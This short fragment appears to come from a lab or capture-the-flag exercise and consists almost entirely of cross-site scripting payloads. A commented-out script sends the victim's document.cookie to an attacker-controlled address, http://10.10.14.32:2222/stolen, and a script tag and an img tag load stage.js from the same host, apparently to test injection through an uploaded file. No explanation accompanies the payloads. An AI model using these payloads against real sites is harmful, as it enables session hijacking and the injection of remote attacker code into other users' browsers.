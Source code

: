 

<!-- <script>fetch("http://10.10.14.32:2222/stolen?cookie=" + encodeURIComponent(document.cookie))</script>  -->
<script src="http://10.10.14.32:1234/stage.js?payload_from_script_tag"></script>
<img src="http://10.10.14.32:1234/stage.js?payload_from_uploaded_file_img_tag" />



